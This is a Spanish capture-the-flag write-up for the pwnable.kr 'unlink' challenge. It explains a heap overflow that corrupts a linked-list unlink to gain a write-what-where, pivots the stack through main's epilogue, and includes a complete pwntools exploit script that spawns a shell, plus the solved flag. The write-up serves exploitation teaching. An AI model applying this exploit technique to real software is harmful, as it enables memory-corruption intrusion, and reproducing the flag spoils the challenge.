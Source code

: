 # unlink

<img width="283" height="359" alt="unlink" src="https://github.com/user-attachments/assets/38081018-6712-4d6f-b6f7-897953388670" />

## Introduccion

**Al igual que el reto *uaf*, este requiere que se tenga un conocimiento basico del heap y malloc**

```
 checksec unlink
[*] '/home/kalcast/Laboratorio/pwn/unlink'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Nos dan el codigo fuente y vemos que implementa una struct "OBJ" que es luce muy similar a un tipico chunk del heap (basicamente es la misma estructura que un chunk libre tipico):
``` C
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;
```

Se reserva espacio en el heap con `malloc` y usa las propiedades del struct para crear una lista enlazada:
```C
	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;
```

Y la funcion "unlink" es una implementacion primitiva de `unlink()` que existia en versiones antiguas de glibc (<=2.3.5)
``` C
void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
```

Nos filtran una direccion del stack (puntero a "A") y otra del heap (header de "A").

Ademas contamos con una funcion `shell` que llama a `system("/bin/sh")`.

## Heap overflow y Unlink
Entonces nos dejan bien claros que tenemos que usar un heap overflow para que al llamar a `unlink()` podamos hacer un what-write-where.

Se hace un unlink a "B". Con el heap overflow en "A" controlamos FD y BK.

Nota: *No estamos trabajando con los verdaderos `fd` y `bk`, sino con los de la estructura. NO hay offset a `fd` y solo 4 bytes de offset a `bk`.

Mis primeros intentos fueron infructuosos por culpa de `BK->fd=FD`.

Por ejemplo, si hacemos FD=`ret_address_in_stack - 4` y BK=`shell_addr` ocurre:
```
  BK = shell_addr
  FD = ret_address_in_stack - 4
  FD->bk(ret_address_in_stack - 4 + 4) =  shell_addr
  BK->fd(shell_address) = ret_address_in_stack - 4    <--- La seccion .data NO es escribible (segfault)

```

Y si usasemos `heap_leaked_address` o alguna direccion relativa recordemos que entonces `heap_leaked_address - 4 = ret_address_in_stack`. Por lo que nuestro shellcode queda arruinado.

Por suerte la funcion `main` tiene un epilogo peculiar:

<img width="1334" height="657" alt="2025-08-01-174207_1334x657_scrot" src="https://github.com/user-attachments/assets/b3cbb92d-b418-4ba1-9d62-74866b687dae" />

La funcion hace `esp=ebp-8`, luego `pop ecx,ebx,ebp`, y por ultimo `esp=ecx-4`.

Mi idea fue hacer `FD=ebp_minus_8 - 4` y `BK=heap_address + 12`.

Nuestro heap_leak es al header de "A", al sumarle 12 lo colocamos en "A->buf\[3\]".

Cuando se ejecute `unlink(B)`, `ebp-8` contendrá la direccion de "A->buf\[3\]". Igualmente, "A->buf\[3\]" contendrá la direccion de `ebp-8`.

Al final de main `pop ecx` hará `ecx=0x8a0d9bc` y `lea esp, [ecx - 4]`  produce `esp=0x8a0d9b8` ("A->buf"), que contendrá la direccion de nuestra shell:

```py
from pwn import *
s = ssh(host='pwnable.kr', port=2222, user='unlink', password='guest') ;r = s.process(["./unlink"])
#r = process("./unlink")

r.recvuntil(b"leak: ")
stack_address = int(r.recvline().strip(),16)
r.info("Stack address leak: {}".format(hex(stack_address)))

r.recvuntil(b"leak: ")
heap_address = int(r.recvline().strip(),16)
r.info("Heap address leak: {}".format(hex(heap_address)))

shell_address = 0x080491d6
ebp_minus_8 = stack_address + 12             

#FD = ebp_8 - 4
#BK = A+ 12
#FD->bk = ebp_8 + 4 -4 = BK
#BK->fd = heap_address = ebp_8 - 4
payload = p32(shell_address)                      # A->buf (A + 8)
payload += b"A" * 12                              # A->buf
payload += b"B" * 8                               # B_prevsize, B_size 
payload += p32(ebp_minus_8 - 4)                   # B->fd   (FD)
payload += p32(heap_address + 12)                 # B->bk   (BK)

r.sendline(payload)
r.interactive()
```

`wr1te_what3ver_t0_4nywh3re`



